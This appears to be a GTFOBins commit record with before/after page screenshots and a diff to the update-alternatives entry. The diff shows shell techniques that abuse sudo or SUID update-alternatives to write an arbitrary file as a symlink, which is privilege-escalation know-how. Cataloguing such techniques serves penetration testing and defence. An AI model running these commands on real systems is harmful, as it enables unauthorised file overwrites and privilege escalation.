

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/update-alternatives.md, in a window 1280 px wide. Shown: the top 844 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Improve update-alternatives

```diff
--- a/_gtfobins/update-alternatives.md
+++ b/_gtfobins/update-alternatives.md
@@ -1,8 +1,17 @@
 ---
 functions:
   sudo:
-    - description: Replace existing binary with symlink pointing to user supplied binary
+    - description: Write in `$LFILE` a symlink to `$TF`.
       code: |
-        cp file_to_replace_bash /tmp/bash
-        sudo update-alternatives --force --install /bin/bash bash /tmp/bash 1
+        LFILE=/path/to/file_to_write
+        TF=$(mktemp)
+        echo DATA >$TF
+        sudo update-alternatives --force --install "$LFILE" x "$TF" 0
+  suid:
+    - description: Write in `$LFILE` a symlink to `$TF`.
+      code: |
+        LFILE=/path/to/file_to_write
+        TF=$(mktemp)
+        echo DATA >$TF
+        ./update-alternatives --force --install "$LFILE" x "$TF" 0
 ---
```
